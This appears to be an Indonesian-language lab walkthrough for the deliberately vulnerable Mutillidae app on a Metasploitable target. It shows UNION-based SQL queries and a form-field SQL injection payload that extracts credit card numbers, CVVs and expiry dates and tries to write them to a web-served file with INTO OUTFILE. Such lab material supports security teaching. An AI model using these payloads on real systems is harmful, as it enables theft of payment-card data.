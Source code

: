 # Mutillidae Lesson 9

### Union

- Pada server, ketikkan perintah dibawah
```
sudo mysql
```
- Lalu jalankan query berikut
```
show databases; //untuk melihat daftar database
use owasp10; //mengakses database owasp10
show tables; //untuk melihat daftar tabel
desc accounts; //untuk melihat tabel accounts
desc credit_cards; //untuk melihat tabel credit_cards
```
![](Mutillidae%20lesson%208/metasploit_1.png)
- Lalu jalankan query select menggunakan union
```
select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;
```
![](Mutillidae%20lesson%208/metasploit_2.png)
- RLIKE digunakan untuk filtering kolom dengan karakter depan angka saja (kolom username / ccnumber)
- Hasilnya adalah isi tabel credit_cards yang ditampilkan di tabel accounts.

### Menyimpan Hasil Query di File
- Jalankan perintah
```
select * from accounts where username RLIKE '^[0-9]' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/tmp/CCN.csv' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED by '\n';
```
- Lalu buka file tersebut
```
\! cat /tmp/CCN.csv
```


### Membuka Halaman User Info

- Pada client, buka mutillidae dari browser
```
http://[ip_metasploit]/mutillidae
```
- Buka halaman User Info
```
OWASP TOP 10 -> A1 - SQL Injection -> SQLi Extract Data -> User Info
```
![](Mutillidae%20lesson%208/1.png)

### SQL Injection dengan Output File
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
```
"size=100"`
```
![](Mutillidae%20lesson%208/2.png)
- Isi form Name dengan string berikut
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/var/www/html/mutillidae/CCN2.txt' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED BY '\n' -- 
```
- Klik View Account Details
![](Mutillidae%20lesson%209/1.png)
- Hasil error tidak bisa menulis file.
![](Mutillidae%20lesson%209/2.png)

